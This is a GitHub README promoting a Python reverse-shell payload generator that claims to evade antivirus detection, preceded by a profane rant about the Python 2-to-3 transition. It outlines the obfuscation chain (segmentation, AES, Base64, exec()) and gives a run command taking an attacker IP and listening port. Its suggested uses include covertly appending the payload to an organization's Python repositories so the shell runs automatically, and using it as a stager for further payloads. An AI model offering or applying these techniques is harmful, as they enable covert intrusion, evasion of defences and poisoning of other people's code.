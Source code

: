 # Dark Lord Obama will now be transitioned into Google Golang

The Python 2 to 3 transition was a clusterfuck, a atomic blast of breakage. [https://lwn.net/Articles/843660/](https://lwn.net/Articles/843660/)

It pisses me off, because my code worked PERFECTLY. But now PyPi won't properly install dependencies required for this to work. Even manually installing PyCrypto will through errors.

And I am not a big fan of half-assed hacks to fix things that should have been supported via some sort of compatibility.

Everyone, please move on along to the successor of DarkLordObama, EXOCET-Antivirus-Evasion. [https://github.com/tanc7/EXOCET-AV-Evasion](https://github.com/tanc7/EXOCET-AV-Evasion)


![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

# Suggested Uses

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Taint/corrupt Python repositories: Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

# How does it work?

# First it chops up your payload into two-character segments, "Command Segmentation)

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-41.png)

# A ArrayMap is produced to allow the payload to reconstitute itself

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-31.png)

# The payload is then shuffled into a list array and then encrypted with AES-128

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-23.png)

# The encrypted payload is encoded in Base64 format

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-14.png)


